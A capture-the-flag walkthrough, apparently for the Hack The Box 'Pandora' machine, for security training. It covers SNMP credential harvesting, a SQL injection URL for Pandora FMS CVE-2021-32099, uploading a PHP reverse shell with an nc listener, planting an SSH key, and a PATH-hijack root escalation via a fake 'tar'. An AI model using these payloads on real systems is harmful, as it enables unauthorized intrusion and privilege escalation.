



Like always, we start off with an NMAP scan. I chose to use NMAPAutomator.

[https://github.com/21y4d/nmapAutomator](https://github.com/21y4d/nmapAutomator)

TCP ports 22 and 80 are open. UDP port 161 is open and running SNMP service.

Let's try visiting port 80 first using an HTTP link.

Nothing seems interesting on this page.

Let's try port 161 next.

snmp-check 10.10.11.136

Scrolling down we find some interesting data containing a username and password.

We can try logging into ssh using the newly acquired credentials.

ssh daniel@10.10.11.136

linpeas.sh is conveniently stored in the home folder.

Nothing interesting was found from running Linpeas for now.

Next, we'll try running Netstat to see if we can find anything.

netstat -an

There is a service running on port 80.

To access it, we need to set up a tunnel on port 80 from the victim machine to our kali machine.

ssh -L 80:localhost:80 daniel@10.10.11.136

Now we can access the service by opening localhost/pandora\_console on our kali machine.

Let's try entering daniels credentials in.

No luck there. By searching google for pandora FMS 742 exploit (version # found at the bottom of the pandora\_console homepage).

There is an interesting article written about CVE-2021-32099. A SQL injection vulnerability. [https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/)

Following the guide, we can use Sqlmap to try and find a session id to log in as matt or daniel. Unfortunately, that doesn't really help us.

More googling led me to find the following POC [https://github.com/ibnuuby/CVE-2021-32099](https://github.com/ibnuuby/CVE-2021-32099)

By adding the following to the URL, we can login as admin by simply visiting http://localhost/pandora\_console

http://localhost/pandora\_console/include/chart\_generator.php?session\_id=a' UNION SELECT 'a',1,'id\_usuario|s:5:"admin";' as data FROM tsessions\_php WHERE '1'='1

Now that we're logged in as admin, we can navigate to the file manager and upload some malicious code!

Download this PHP code to create a reverse shell. [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Be sure to edit the file and add your listening IP and port. I'm using port 4444 for this demonstration.

Save and upload the file.

Notice how we uploaded the file to the directory 'images'.

Now we need to start a listener on our kali machine.

nc -lnvp 4444

Our machine is listening and now we need to run the PHP file that we've just uploaded.

We've got a shell logged in as matt!

cat /home/matt/user.txt

We have our first flag. Now we need to see how we can escalate privileges to root.

First, we can try running linpeas as matt to see if we can find anything.

Pandora\_backup is an interesting file that is owned by root.

Let's take a look inside to see if we can find anything.

cat /usr/bin/pandora\_backup

Somewhere inside the file, tar is running. We can try to exploit this by changing the $PATH variable.

First, we'll create a new file named tar that will run bash -p.

We'll make the tar an executable and then modify the $PATH to add a new path where our tar is located.

By running /usr/bin/pandora\_backup as matt, inside the file root will actually execute tar. When root executes our tar file, a new bash terminal will spawn as root.

echo "bash -p" > tar
chmod +x tar
export PATH=/home/matt:$PATH

Now we'll actually need to ssh into this machine in order for the exploit to work.

The quickest way is to use an ssh key generated on our kali machine.

ssh-keygen

cat ~/.ssh/id\_rsa.pub

Copy the public key and paste it into matts machine.

echo "<id\_rsa.pub>" > /home/matt/.ssh/authorized\_keys

chmod 0600 /home/matt/.ssh/authorized\_keys

Now we can ssh from our kali machine

ssh matt@10.10.11.136

Since this is a new session we'll need to export our new path again.

export PATH=/home/matt:$PATH
/usr/bin/pandora\_backup

And we have our root.txt!
